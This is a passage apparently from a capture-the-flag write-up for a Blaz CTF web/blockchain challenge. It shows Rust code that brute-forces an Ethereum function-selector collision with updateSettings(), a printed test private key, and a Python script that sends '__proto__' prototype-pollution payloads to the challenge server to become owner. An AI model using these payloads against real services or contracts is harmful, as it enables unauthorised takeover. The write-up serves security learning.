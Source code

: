```js
    const userId = userTokenToId[userToken];
```

Then just generate an EOA and bruteforce a function signature that has the same function signature hash as `updateSettings()` (0x1b220281)

```
(PRIVATE KEY) : 0x1b0c68f629e4d5bd555352706da5d862fe22f889b9fcdea6edc1a3a6847710a2
Address: 0x3CEdf1aD30f4DAC57196a3b7Ef4b2F9B0ad536Db

 »  abi.encode(0x3CEdf1aD30f4DAC57196a3b7Ef4b2F9B0ad536Db)
0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db
```

At first I wrote a python script for that, but it is really slow, and @minaminao did it in rust which is much faster

```
Hash: 0x1b220281, Sig: checkpoint(uint256,(uint8,uint256,uint256)[],8635571430,0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db,0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db)
```

```rust
fn function_selector_blaz_ctf() {
    for i in 0..(1u64<<36) {
        let function_sig = format!("checkpoint(uint256,(uint8,uint256,uint256)[],{},0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db,0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db)", i);
        let out = ethers::utils::keccak256(function_sig.as_bytes());
        let function_selector = &out[0..4];
        if function_selector[0..3] == [0x1b, 0x22, 0x02] {
            println!("Hash: 0x{}, Sig: {}", ethers::utils::hex::encode(function_selector), function_sig);
            if function_selector[3] == 0x81 {
                print!("Yes!");
                break;
            }
        }
    }
}
```

I wrote a script to automate the exploit to become the owner

```python
import requests

url = "http://bdfnrentvqmqnzvalrlqgsvp-main.web.ctf.so:8080/"

# register userToken, the rewardAddr doesnt matter
burp0_url = f"{url}register?userToken=4gi22ibkv0p19lt5ck0xv7&rewardAddr=0xd8dA6BF26964aF9D7eEd9e03E53415D37aA96045"
res = requests.get(burp0_url)
print(res.text)

# this will give error, but the prototype is polluted already
burp0_url = f"{url}checkpoint"
burp0_json={"sequences": [{"duckNames": ["8635571430"], "level": "__proto__", "type": "combine"}], "userToken": "4gi22ibkv0p19lt5ck0xv7"}
res = requests.post(burp0_url, json=burp0_json)
print(res.text)

# this will give error, but the prototype is polluted already
burp0_json={"sequences": [{"duckNames": ["0x0000000000000000000000003cedf1ad30f4dac57196a3b7ef4b2f9b0ad536db"], "level": "__proto__", "type": "combine"}], "userToken": "4gi22ibkv0p19lt5ck0xv7"}
res = requests.post(burp0_url, json=burp0_json)
```